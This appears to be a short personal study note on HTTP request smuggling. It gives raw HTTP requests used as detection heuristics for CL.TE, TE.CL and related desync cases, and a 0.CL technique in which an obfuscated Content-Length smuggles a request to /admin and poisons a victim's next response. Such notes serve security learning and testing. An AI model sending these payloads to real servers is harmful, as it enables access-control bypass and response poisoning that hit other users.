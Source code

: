 

### Detection Technique

#### Heuristic 1

1. CL.TE (Back end will timeout, waiting for the next chunk size)
2. TE.TE / TE.CL (invalid chunk size so frontend will reject it)
3. CL.CL (process normally)
```http
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 4
	
1\r\n
Z\r\n
X
```


#### Heuristic 2

- TE.CL (back end will timeout, waiting for the last byte X)
- TE.TE / CL.CL (process normally)
- CL.TE (socket poisoning will happen)
```http
POST /about HTTP/1.1  
Host: example.com  
Transfer-Encoding: chunked  
Content-Length: 6  
  
0\r\n
\r\n
X
```


For TE.CL payloads special care needs to taken for setting the chunked size and \r\n. burp helps with it by hovering over the chunk size.

![[Pasted image 20250815232212.png]]

### 0.CL

- Send a first request with obfuscated CL that frontend server misses it and backend server parses it.
- Follow up it with a request prefix which will be eaten by the first request content length, the second request will be from GET /admin.
this second request contains the head request and the poison for the victim 3rd request


##### requests from front end server perspective

```
POST /anything HTTP/1.1
Host: <redacted>
Content-length:
 44
 ------- 2nd request -----
GET /doesnot-matter HTTP/1.1
Content-Length: 150
Foo: GET /admin HTTP/1.1
Host: <redacted>

HEAD /index.html HTTP/1.1
Host: <redacted>

```